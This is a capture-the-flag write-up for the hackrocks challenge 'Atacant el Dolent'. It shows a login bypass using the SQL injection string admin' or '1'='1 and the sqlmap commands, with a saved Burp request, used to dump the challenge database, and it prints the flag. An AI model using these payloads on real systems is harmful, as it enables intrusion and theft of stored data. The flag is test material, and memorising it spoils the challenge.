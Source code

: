 +++
title = "🤖 [0x01] Atacant el Dolent"
description = "Writeup for 'Atacant el Dolent'"
date = "2022-06-14"
aliases = ["writeup", "writeups", "ctf", "ctfs"]
author = "cakehonolulu"
+++
<br>

![Atacant el Dolent](/images/ctfs/nuclio_cyberhack/atacant-el-dolent/atacant-el-dolent.jpg)

<table>
<thead>
  <tr>
    <th>Difficulty</th>
    <td>Medium</td>
  </tr>
</thead>
<tbody>
  <tr>
    <th>Points</th>
    <td>70</td>
  </tr>
  <tr>
    <th>Category</th>
    <td>Software security</td>
  </tr>
</tbody>
</table>

# Description
<br>
<img src="https://emojipedia-us.s3.dualstack.us-west-1.amazonaws.com/thumbs/160/openmoji/292/flag-for-catalonia-esct_1f3f4-e0065-e0073-e0063-e0074-e007f.png" width="20px" height="20px" style="vertical-align: bottom;"> En els darrers dies s'han rebut tiquets dels nostres clients notificant i reclamant diners per compres que no han fet.

Tots ells accepten que aquests càrrecs es fan després d'haver realitzat una compra a la nostra botiga col·laboradora.

Després d'aquest estrany incident, truquem al nostre Equip Blau per investigar el cas. Després de revisar tant els registres com el codi web, van aconseguir trobar una biblioteca de tercers que va capturar la informació de les targetes bancàries, així com el seu CVV i data de venciment.

Addicionalment, analitzant aquesta biblioteca troben el lloc web on s'enviaven les dades, però troben un login i aquest equip no està especialitzat en atacs d'aquest estil, per la qual cosa sol·liciten la teva ajuda, perquè investiguis aquest lloc web, obtinguis accés i verificar si les dades emmagatzemades són allà, i més específicament, les dades d'Adrián Peréz Ríos, ja que és un client important.

<hr>

El token del joc serà: contrasenyaadmin-numtargeta-cvv-datacaducitat d'Adrián Pérez Ríos ó 0000000000-123-12/22 en cas de que no estigui.

Exemple de resposta: admin12-4548812049400004-203-08/27

Per accedir al repte, fes clic al següent link: https://challenges.hackrocks.com/bad-guy 
<br>
<br>
🇺🇸 We've been bombarded by our clients regarding credit card uses that were not made by them.

All of them agree that those uses were done right after buying through one of our partner's shops.

After the incident, our Blue Team started to study the infraestructure of the website and found a third-party library that was capturing our clients credit card details.

Additionally, the Blue Team found a website that contains a login form; but they're not talented enough to gain access so they come asking for your help.
Carefully check if there's our clients CC info there and check if there's Adrián Pérez Ríos specifically, he's a very important client.

<hr>

Game token is: adminpassword-ccnumber-cvv-expirydate from Adrián Pérez Ríos or 0000000000-123-12/22 by default.

Token example: admin12-4548812049400004-203-08/27

To access the challenge, enter here: https://challenges.hackrocks.com/bad-guy 
<br>

<h1>Solution walkthrough</h1>
<br>

We start by accessing the [provided link](https://challenges.hackrocks.com/bad-guy) and  we're greeted with this:

![Login Page](/images/ctfs/nuclio_cyberhack/atacant-el-dolent/login_page.png)

You can try the default creds (admin:admin... and such) but they won't work.

The exploit itself is very easy; a simple SQL injection.

<code>admin' or '1'='1</code> on the user and passwords fields and...

![Access](/images/ctfs/nuclio_cyberhack/atacant-el-dolent/access.png)

_Voilá!_

You need to click on a button with an '?' to view the credentials, and those are:

User: <code>admin</code>
<br>
Password: <code>123456789987654321</code>

We can now access the default url and check those, we try them and we're met with this:

![Solution](/images/ctfs/nuclio_cyberhack/atacant-el-dolent/solution.png)

Where we can see the user they asked us to look for.

Flag: <code>123456789987654321-6269784865499645-879-07/25</code>

_NOTE:_

I also ran an SQLMap through the login request (Saved using BURP) and dumped the entire database.

Out of curiosity, there's another user that can enter the page:

User: <code>usu</code>
Password: <code>1234678</code>

Commands:

{{< highlight bash >}}
$ sqlmap -r request.txt -p password --level 5 --risk 3
{{< /highlight >}}

and for dumping:

{{< highlight bash >}}
$ sqlmap -r request.txt -p password --level 5 --risk 3 --all
{{< /highlight >}}

Saved request with BURP:

{{< highlight bash >}}
GET /bad-guy/?username=admin&password=admin&login=Are+you+sure%3F HTTP/1.1
Host: challenges.hackrocks.com
Cookie: darkmode=true; refresh=${YOUR_COOKIE}; PHPSESSID=${YOUR_PHPSESSID}; access=${YOUR_ACCESS}
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://challenges.hackrocks.com/bad-guy/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Dnt: 1
Sec-Gpc: 1
Te: trailers
Connection: close
{{< /highlight >}}